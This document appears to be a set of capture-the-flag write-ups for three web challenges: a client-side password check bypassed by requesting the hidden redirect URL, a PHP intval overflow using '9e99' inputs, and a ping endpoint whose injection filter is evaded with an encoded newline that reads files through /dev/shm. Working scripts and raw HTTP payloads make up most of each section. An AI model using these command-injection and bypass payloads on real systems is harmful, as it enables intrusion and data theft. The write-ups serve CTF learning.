 # Global Redirect Exploit

## Overview
This writeup details the exploitation of a client-side authentication bypass in a web application. By analyzing the page source, we can directly access a hidden endpoint and retrieve the flag.

## Analysis
Upon viewing the page source, we find the following JavaScript code responsible for authentication:

```javascript
<script>
      function loginAuthenticate(){
        var password = document.getElementById("password");
        var hash = sjcl.hash.sha256.hash(password);
        var hexRepresentation = sjcl.codec.hex.fromBits(hash);
        if (hexRepresentation == "2a70282a868c0ca9e6fe5bb5cf2ac2ea6b523062102bada26fb87091d511e3f1"){
          alert("welcome Home Admin");
          window.location = "./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7";
        }else{
          alert("Incorrect Password. Please Try Again");
        }
        alert(hash);
      }
</script>
```

### Exploit Strategy
- The authentication mechanism relies on JavaScript, meaning it can be bypassed.
- The password is hashed using SHA-256 and compared with a hardcoded hash.
- If the hash matches, the user is redirected to `./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7`.
- Instead of brute-forcing the password, we can directly navigate to the endpoint.

## Exploit Execution
Using Python and the `requests` module, we can fetch the contents of the hidden endpoint and extract the flag:

```python
import requests
import re

url = "http://chal.bearcatctf.io:39724/0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7"

response = requests.get(url)

flag_match = re.search(r'BCCTF\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```
---

# Numberizer Exploit

## Overview
This writeup explains how we exploit a PHP-based number validation logic to obtain a flag. The vulnerability lies in how the program processes numeric inputs, allowing us to manipulate them to achieve an unintended negative sum.

## Analysis
Examining the PHP code:

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php";

$MAX_NUMS = 5;

if(isset($_POST['numbers']) && is_array($_POST['numbers'])) {

    $numbers = array();
    $sum = 0;
    for($i = 0; $i < $MAX_NUMS; $i++) {
        if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
            continue;
        }
        $the_number = intval($_POST['numbers'][$i]);
        if($the_number < 0) {
            continue;
        }
        $numbers[] = $the_number;
    }
    $sum = intval(array_sum($numbers));

    if($sum < 0) {
        echo "You win a flag: $FLAG";
    } else {
        echo "You win nothing with number $sum ! :-(";
    }
}
?>
```

### Exploit Strategy
- The program processes an array of numbers submitted via `POST`.
- It checks if values are numeric and restricts input length to 4 characters.
- It converts numbers using `intval()`, which processes certain inputs incorrectly.
- The sum must be negative to obtain the flag.

## Exploit Execution
We exploit the behavior of `intval()` with scientific notation. `intval("9e99")` evaluates to a very large positive integer, but when summed, it can cause an integer overflow, resulting in a negative sum.

```python
import requests
import re

url = "http://52.59.124.14:5004/"

data = {
    "numbers[]": ["9e99", "9e99", "9e99", "9e99", "9e99"]
}

response = requests.post(url, data=data)

flag_match = re.search(r'ENO\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```

---

# Unhealth 2: The Sequel Exploit

## Overview
This challenge involves bypassing a security mechanism that detects command injection attempts. By leveraging indirect file writing and retrieval, we successfully extract the flag.

## Analysis
- The `/health-check` endpoint accepts a `POST` request with an `ip` parameter.
- Sending a normal `ping` request to an IP returns output.
- Command injection attempts (e.g., `ip=127.0.0.2; cat /flag.txt`) are blocked, triggering `HACKING DETECTED`.
- However, by writing command output to `/dev/shm/` (a temporary filesystem), we can later retrieve the flag.

## Exploit Execution
### Step 1: Write file contents to `/dev/shm/`
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2f*%20%3E%20%2Fdev%2Fshm%2Fcontents1.txt
```

### Step 2: Retrieve the contents
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2Fdev%2Fshm%2Fcontents1.txt
```

